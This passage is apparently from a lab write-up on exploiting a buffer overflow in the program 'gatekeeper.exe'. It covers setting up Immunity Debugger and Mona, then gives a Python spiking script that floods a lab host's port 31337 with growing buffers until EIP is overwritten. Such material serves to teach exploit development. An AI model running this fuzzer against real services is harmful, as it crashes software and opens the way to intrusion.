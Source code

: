 You need to install the Immunity Debugger and Mona Python Modules in order to proceed with the following in order to observer the results of our scripts and identify the memory address where the crash occurs.
Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Python template

```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 500

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("192.168.0.227",31337))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 500
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:

![Python_Spiking](runPythonSpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopPythonspiking.png)

